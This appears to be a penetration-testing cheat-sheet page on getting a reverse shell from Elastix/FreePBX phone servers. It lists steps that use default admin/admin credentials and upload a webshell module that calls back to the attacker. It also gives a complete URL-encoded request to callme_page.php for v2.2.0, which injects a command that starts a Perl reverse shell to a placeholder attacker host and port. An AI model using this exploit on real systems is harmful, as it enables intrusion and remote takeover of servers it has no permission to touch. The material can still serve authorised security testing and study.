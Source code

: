 ```yaml
---
title: Elastic / FreePBX
parent: Shell (Reverse/Others)
layout: default
nav_order: 11
---
```



1. If you have access to Elastix, go to top select Security (press the down arrow if Security not shown) -> Advanced Settings. Make sure Enable Access to FreePBX is on. Can reset password here also.
2. Next login to FreePBX (https://IP/admin) then type in the user and pass (ID usually admin pass usually admin and the password you reset)
3. Change the install.php under freepbx webshell to your IP and port.
4. Zip it: tar -cvzf freepbx-0.1.tar.gz freepbx-0.1
5. Upload the module via module admin and install it

\
Alternatively for v2.2.0: Request this in your browser/Burp Suite. (change IPIPIPIIP and PORTPORT accordingly, if fail maybe try check the callmenum number)
```
https://IP/recordings/misc/callme_page.php?action=c&callmenum=1000@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22IPIPIPIP%3aPORTPORT%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A
```